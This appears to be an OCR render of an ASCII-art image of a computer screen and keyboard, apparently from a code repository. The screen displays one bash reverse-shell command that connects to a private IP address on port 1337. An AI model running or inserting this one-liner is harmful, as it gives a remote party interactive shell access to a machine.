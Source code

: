
    *************************************************************************
    * $ bash -i >& /dev/tcp/10.10.9.1/1337 0>&1                             *
    *                                                                       *
    *                                                                       *
    *                                                                       *
    *                                                                       *
    *                                                                       *
    *                                                                       *   
    *                                                                       *
    *                                                                       *
    *************************************************************************
      ESC   F1 F2 F3 F4 F5 F6 F7 F8 F9 F10 F11 F12 PRT SCR  BRK
      ~       1 2 3 4 5 6 7 8 9 0 - =    BCKSP     INS HOME PGUP       -------
      TAB      q w e r t y u i o p { }    \|/      DEL END  PGDN       |  |  |
      CAPS     a s d f g h j k l : "     ENTER                         |     |
      SHIFT     z x c v b n m , . /      SHIFT          |              |_____|
      CTRL WIN  ALT   S_P_A_C_E ALT   FN WIN CTRL    <- _ ->
